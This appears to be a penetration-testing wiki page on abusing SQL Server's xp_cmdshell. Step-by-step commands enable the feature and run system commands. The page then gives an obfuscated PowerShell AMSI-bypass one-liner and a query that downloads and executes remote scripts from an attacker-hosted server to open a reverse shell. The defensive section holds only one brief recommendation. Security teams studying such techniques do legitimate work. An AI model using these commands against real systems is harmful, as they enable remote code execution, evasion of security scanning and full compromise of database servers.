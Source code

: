 ```yaml
---
description: xp_cmdshell could be used to execute commands on the SQL Server.
---
```


# Executing Commands

## Attacking

### How it works

[xp\_cmdshell](https://docs.microsoft.com/en-us/sql/relational-databases/system-stored-procedures/xp-cmdshell-transact-sql?view=sql-server-ver15) is a SQL Server functionality that is disabled by default. However it can be enabled using sp\_configure. It spawns a Windows command shell and passes in a string for execution. Any output is returned as rows of text. The Windows process spawned by **** xp\_cmdshell has the same security rights as the SQL Server service account.

### Executing the attack

**In this example and screenshots mssql-cli is used, but this also works with Heidisql in the query tab.**

1. Enable xp\_cmdshell with the following commands:

```
EXEC sp_configure 'show advanced options',1
RECONFIGURE
EXEC sp_configure 'xp_cmdshell',1
RECONFIGURE
```

![](<../../../.gitbook/assets/image (69) (1) (1) (1).png>)

2\. Execute commands with xp\_cmdshell:

```
EXEC master..xp_cmdshell 'whoami'
```

![](<../../../.gitbook/assets/image (60) (1) (1) (1) (1).png>)

3\. Gain a reverse shell and execute commands by executing the following query after doing the following:

* Create a webserver directory to host some files.
* Download [Invoke-PowerShellTCP](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1)
* Save a amsi bypass in amsi.txt, for example.

```
S`eT-It`em ( 'V'+'aR' +  'IA' + ('blE:1'+'q2')  + ('uZ'+'x')  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;    (    Get-varI`A`BLE  ( ('1Q'+'2U')  +'zX'  )  -VaL  )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),('.Man'+'age'+'men'+'t.'),('u'+'to'+'mation.'),'s',('Syst'+'em')  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+'nitF'+'aile')  ),(  "{2}{4}{0}{1}{3}" -f ('S'+'tat'),'i',('Non'+'Publ'+'i'),'c','c,'  ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} )
```

```
EXEC master..xp_cmdshell 'powershell iex (New-Object Net.WebClient).DownloadString(''http://192.168.248.3:8090/amsi.txt''); iex (New-Object Net.WebClient).DownloadString(''http://192.168.248.3:8090/Invoke-PowerShellTcp2.ps1'')"'
```

This query will download and load into memory the `amsi.txt` file and then the `Invoke-PowerShellTcp` script creating a reverse shell. These should be hosted on your webserver on the attacking machine. For more information about this technique check out:

{% content-ref url="../../misc/reverse-shell-trick.md" %}
[reverse-shell-trick.md](../../misc/reverse-shell-trick.md)
{% endcontent-ref %}

![](<../../../.gitbook/assets/image (45) (1) (1) (1) (1).png>)

## Defending

### Recommendations

* Sysadmin users can enable xp\_cmdshell, so limit these users.

### Detection



## References

{% embed url="https://docs.microsoft.com/en-us/sql/relational-databases/system-stored-procedures/xp-cmdshell-transact-sql?view=sql-server-ver15" %}
